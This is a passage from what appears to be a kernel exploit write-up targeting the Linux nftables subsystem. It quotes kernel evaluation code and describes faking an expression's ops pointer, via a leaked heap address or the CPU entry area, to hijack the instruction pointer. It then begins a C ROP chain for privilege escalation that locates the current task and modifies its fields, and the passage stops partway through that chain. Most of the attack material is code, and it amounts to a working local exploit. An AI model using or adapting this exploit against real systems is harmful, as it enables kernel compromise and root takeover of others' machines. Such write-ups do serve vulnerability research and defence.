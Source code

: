 ```c
			if (regs.verdict.code != NFT_CONTINUE)
				break;
		}
```

```c
static void expr_call_ops_eval(const struct nft_expr *expr,
			       struct nft_regs *regs,
			       struct nft_pktinfo *pkt)
{
#ifdef CONFIG_RETPOLINE
	unsigned long e = (unsigned long)expr->ops->eval;
#define X(e, fun) \
	do { if ((e) == (unsigned long)(fun)) \
		return fun(expr, regs, pkt); } while (0)

	X(e, nft_payload_eval);
	X(e, nft_cmp_eval);
	X(e, nft_counter_eval);
	X(e, nft_meta_get_eval);
	X(e, nft_lookup_eval);
	X(e, nft_range_eval);
	X(e, nft_immediate_eval);
	X(e, nft_byteorder_eval);
	X(e, nft_dynset_eval);
	X(e, nft_rt_get_eval);
	X(e, nft_bitwise_eval);
#undef  X
#endif /* CONFIG_RETPOLINE */
	expr->ops->eval(expr, regs, pkt);
}
```

`chain->blob_gen_0` is used in `nft_do_chain`, and `expr->ops->eval` is called to evaluate the expression in `expr_call_ops_eval`. We set the ops of the fake expr to the leaked heap address (LTS, COS) or CPU entry area (mitigation) to control the RIP. For LTS and COS kernel, the fake blob object with the fake expr is allocated in `kmalloc-cg-192`. For mitigation kernel, we allocate the fake blob object larger than 0x2000 to use page allocator.

# Post-RIP

The ROP payload is stored in `chain->blob_gen_0` allocated in `kmalloc-cg-192` and the leaked heap address allocated in `kmalloc-cg-96`.

```c
void rop_chain_192(uint64_t* data){
    int i = 0;

    data[i++] = 0x100;
    data[i++] = 0x100;

	// fake ops addr
    data[i++] = kmalloc_96;

    // current = find_task_by_vpid(getpid())
	data[i++] = kbase + POP_RDI_RET
	data[i++] = getpid();
	data[i++] = kbase + FIND_TASK_BY_VPID;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
	data[i++] = kbase + POP_RSI_RET;
	data[i++] = RCU_READ_LOCK_NESTING_OFF;
	data[i++] = kbase + ADD_RAX_RSI_RET;

```